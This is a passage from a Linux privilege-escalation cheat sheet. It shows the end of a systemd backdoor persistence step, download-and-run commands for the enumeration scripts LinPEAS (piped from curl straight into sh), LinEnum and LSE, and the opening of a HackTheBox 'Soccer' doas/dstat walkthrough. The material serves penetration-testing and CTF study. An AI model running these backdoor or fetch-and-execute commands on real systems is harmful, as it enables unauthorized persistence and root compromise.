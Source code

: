 ```bash
EOF

systemctl enable backdoor.service
systemctl start backdoor.service
```

---

## Automated Enumeration Tools

### LinPEAS
```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Or transfer and run
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### LinEnum
```bash
# Download LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### LSE (Linux Smart Enumeration)
```bash
# Download and run LSE
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh -l1  # Level 1 checks
./lse.sh -l2  # Level 2 checks
```

---

## Real-World Example: Soccer HTB doas/dstat

### Initial Discovery
```bash
# Found user can write to dstat plugin directory
player@soccer:/usr/local/share$ find / -group player 2>/dev/null | grep -v '^/proc\|^/run\|^/sys'
/usr/local/share/dstat

# Check doas configuration
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat

# Check directory permissions
player@soccer:/usr/local/share$ ls -la
drwxrwx---  2 root player 4096 Dec 12  2022 dstat
```
